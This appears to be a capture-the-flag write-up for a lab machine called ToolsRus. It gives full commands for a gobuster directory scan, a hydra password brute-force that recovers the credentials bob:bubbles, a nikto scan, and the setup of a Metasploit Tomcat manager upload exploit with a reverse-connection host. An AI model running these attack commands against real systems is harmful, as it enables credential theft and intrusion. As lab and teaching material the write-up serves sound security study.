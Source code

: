 # ToolsRus

# Using Gobuster Directory Scan

Command:

`gobuster -u "http://10.10.54.107/" -w "/usr/share/dirbuster/wordlist/directory-list-2.3-medium.txt" -t 150 -o "gobuster.txt"`

Output:

- we got 3 directory

1. guideline

    - after the visit this i got username `bob`

2. protected

3. server-status

    - This protected web-page ask login credintials, so now it time to use next tool

# Using Hydra Tools

Command:

`hydra -l "bob" -P "rockyou.txt" -s 80 -f 10.10.54.107 http-get /protected -o "hydra.txt"`

Output:

- Password is `bubbles`

- wooowww, we got and password.

## Using Nikto Tool

Command:

`nikto "http://10.10.54.107:1234/manager/html" -id bob:bubbles -o "nikto.txt"`

Output:

- Output gives us lots of info about server and files.

## Using Metasploit Tool

- lets enumerate the each services which running on ports.

- In the port 1234 Tomcat/Coyota service is running is on which is vulnerable, for more details [link]("https://charlesreid1.com/wiki/Metasploitable/Apache/Tomcat_and_Coyote")

- So we use `multi/http/tomcat_mgr_upload` exploit

- setup some variables RHOSTS:[Target Machine IP], RPORT:1234, LHOST[Own tun0 IP], HttpUsername:bob, HttpPassword:bubbles
